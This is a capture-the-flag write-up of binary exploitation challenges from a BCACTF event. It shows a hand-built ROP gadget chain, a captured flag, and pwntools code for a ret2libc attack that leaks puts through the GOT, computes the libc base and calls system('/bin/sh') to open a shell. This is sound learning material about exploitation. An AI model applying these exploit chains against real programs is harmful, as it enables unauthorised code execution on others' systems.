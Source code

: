 ```py
ls = [
	0x00000000004013aa, # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;    
	0x40408c - 0x5d, # rbx = jumps # + 3 might not be, todo, find small byte  
	# no +3  
	0,0,0,0,0, # rbp, r12, r13, r14, r15  
	
	0x00000000004013b3, 0, # single pop for stack alignment  
	0x00000000004013b3, 0, # single pop for stack alignment  
	0x000000000040114f, #nop for alignment Plzzzz  
	
	0x00000000004013a9, # or byte ptr [rbx + 0x5d], bl; pop r12; pop r13; pop r14; pop r15; ret;    
	0,0,0,0, # r12,13,14,15  
	
	0x00000000004011d6+4 -4, #b function  
]
```

```
bcactf{l34rn_t0_jump_then2_r0P_28e12f}
```

## Got libc?
This one was not very exciting, there was some debugging, but largely the ROP library of pwntools took care of everything.

```py
r.recvuntil(b'?\n')
offset = b'A' * 40
rop = ROP(exe)
rop.call("puts", [exe.got['puts']])
rop.call(exe.symbols["main"])
r.sendline(offset + rop.chain())
```

I call `puts` on the address of `puts`, this will give me the address of `puts`.

```py
rc = r.recvuntil(b'\x7f')  
print(rc.hex())  
puts = u64(rc.ljust(8, b'\0'))  
print('puts at', hex(puts))  
libc.address = puts - libc.symbols["puts"]  
print('libc at', hex(libc.address))
```

 I parse the address of `puts`, and since I know the relative distance from the start of `libc` to `puts` (using the supplied libc file), I can find the relative distance to any other value in `libc`.

```py
bin_sh = next(libc.search(b"/bin/sh\0"))  
rop = ROP(libc)  
rop.raw(p64(rop.ret.address)) # offset for stack align rop.ret is a simple 'ret' gadget  
rop.call(libc.symbols['system'], [bin_sh])  
rop.call(exe.symbols["main"])  
r.sendline(offset + rop.chain())  
r.interactive()
```


[karmanyaahm@karmanyaahsArch]: ~/CTF/bca22/pwn/formatfortune>$
